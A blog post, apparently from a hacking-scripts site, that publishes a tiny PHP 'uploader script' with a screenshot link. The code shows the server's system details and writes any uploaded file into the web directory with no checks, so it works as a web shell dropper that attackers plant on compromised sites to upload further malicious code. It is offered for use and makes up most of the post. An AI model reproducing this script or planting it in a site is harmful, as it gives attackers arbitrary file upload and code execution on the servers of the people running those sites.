```yaml
---
id: 66
title: Uploader Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=66
permalink: /uploader-script/
categories:
  - PHP
  - Upload
tags:
  - PHP
  - uploader
---
```

This is a very basic uploader script, which simply enables the user to upload whatever they want to the server.

### Uploader Script Source Code

{% highlight php %}<?php
echo '&lt;b&gt;&lt;br&gt;&lt;br&gt;'.php_uname().'&lt;br&gt;&lt;/b&gt;';
echo '&lt;form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader"&gt;';
echo '&lt;input type="file" name="file" size="50"&gt;&lt;input name="_upl" type="submit" id="_upl" value="Upload"&gt;&lt;/form&gt;';
if( $_POST['_upl'] == "Upload" ) {
    if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '&lt;b&gt;Upload SUKSES !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
    else { echo '&lt;b&gt;Upload GAGAL !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
}
?>
{% endhighlight %}

### Uploader Script Screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png" alt="uploader script screenshot" width="495" height="108" class="aligncenter size-full wp-image-333" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png